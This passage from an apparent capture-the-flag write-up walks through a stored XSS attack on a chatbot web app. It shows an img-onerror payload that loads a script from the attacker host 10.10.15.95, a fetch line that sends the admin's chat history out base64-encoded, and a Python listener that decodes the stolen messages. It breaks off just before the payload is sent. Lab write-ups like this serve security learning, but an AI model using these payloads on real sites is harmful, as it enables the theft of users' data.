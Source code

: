 First, this imports the socket as saw in the script. Then, it sends the 'history' command to the chatbot as saw in the chat.js above (`socket.emit('client_message', 'history')`) and when a message is received from the bot (`socket.on('message', (my_message))`), it makes a request to my http server with the base64-encoded message (`fetch('http://10.10.15.95:8000/?msg=' + btoa(my_message))`). 

I will also change my payload sended to the admin to import /socket/socket.io.js because that's where the io function is defined. My resulting payload will be `<img src=x onerror=\"socketElement = document.createElement('script'); socketElement.src='/socket.io/socket.io.js'; document.head.appendChild(socketElement); socketElement.addEventListener('load', function(){ myScript = document.createElement('script'); myScript.src='http://10.10.15.95/script.js';document.body.appendChild(myScript)})\">`. 

Also, I have created this script to be more easy to receive the messages and decrypt and print them directly when they are sended:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import base64
import urllib

class myHandler(BaseHTTPRequestHandler):
    def do_OPTIONS(self):
        parsed_path = urllib.parse.urlparse(self.path)
        query_params = urllib.parse.parse_qs(parsed_path.query)
        b64_message = query_params.get('msg', [''])[0]
        message = base64.b64decode(b64_message)
        print(f"Received message: {message.decode()}")
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b"Request received")
    def log_message(self, format, *args):
        return

def start_server(port):
    server_address = ('', port)
    httpd = HTTPServer(server_address, myHandler)
    print(f"Starting server on port {port}")
    httpd.serve_forever()


start_server(8000)
```

I will execute the script and also start a python server in port 80 for the server to interpret my script.js:

```bash
❯ python3 receive-admin-messages.py
Starting server on port 8000
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now I will send the payload:
